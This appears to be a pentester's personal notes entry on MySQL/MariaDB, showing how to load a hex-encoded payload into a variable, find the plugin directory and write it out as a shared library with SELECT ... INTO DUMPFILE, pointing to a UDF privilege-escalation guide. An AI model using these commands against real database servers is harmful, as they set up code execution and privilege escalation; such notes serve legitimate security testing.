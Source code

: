 # mysql mariadb write any binary file with file permissions
`set @shell=0x <hex here> ;`
paste in hex as a variable with no quotes.
prepare payload as plain hex with no newlines with ~/kb/bash-scripting/string-to-hex.sh
```SQL
select @@plugin_dir;
select binary @shell into dumpfile '/path/to/file/file.so';
```
additional UDF exploit info: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library

# Related

- [20221003151236](/zet/20221003151236/README.md) mysql mariadb
- ~/kb/hacking/tricks/mysql-tricks.md

Tags:

    #assorted #hacking #trick #mysql
